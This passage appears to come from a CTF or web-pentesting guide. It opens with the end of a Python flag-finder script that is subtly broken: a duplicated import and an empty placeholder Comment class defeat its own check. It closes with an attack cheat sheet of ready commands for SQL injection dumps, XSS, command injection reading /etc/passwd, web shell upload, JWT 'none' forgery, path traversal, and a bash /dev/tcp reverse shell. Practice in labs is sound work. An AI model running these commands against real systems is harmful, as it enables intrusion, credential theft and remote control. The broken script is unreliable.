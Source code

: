 ```python
        comments = soup.find_all(string=lambda text: isinstance(text, Comment))
        for comment in comments:
            for pattern in patterns:
                matches = re.findall(pattern, str(comment))
                if matches:
                    print(f"[+] Found in comment: {matches}")
        
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Usage: ./flag_finder.py http://target")
        sys.exit(1)
    
    from html.parser import HTMLParser
    from html.parser import HTMLParser
    class Comment:
        pass
    
    find_flags(sys.argv[1])
```

---

## 📚 Cheat Sheet Reference

### Quick Command Reference

```bash
# === RECON ===
gobuster dir -u $TARGET -w /usr/share/wordlists/dirb/common.txt
nikto -h $TARGET
nmap -p- -A $TARGET

# === SQL INJECTION ===
sqlmap -u "$TARGET?id=1" --batch --dbs
sqlmap -u "$TARGET?id=1" -D db_name -T table_name --dump

# === XSS TESTING ===
curl "$TARGET/search?q=<script>alert(1)</script>"

# === COMMAND INJECTION ===
curl "$TARGET/ping" -d "host=127.0.0.1;cat /etc/passwd"

# === FILE UPLOAD ===
curl -F "file=@shell.php" $TARGET/upload

# === JWT ATTACKS ===
python3 -c "import jwt; print(jwt.encode({'user':'admin'}, '', algorithm='none'))"

# === COOKIE MANIPULATION ===
curl -b "admin=true" $TARGET/admin

# === PATH TRAVERSAL ===
curl "$TARGET/download?file=../../../../etc/passwd"

# === REVERSE SHELL ===
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```
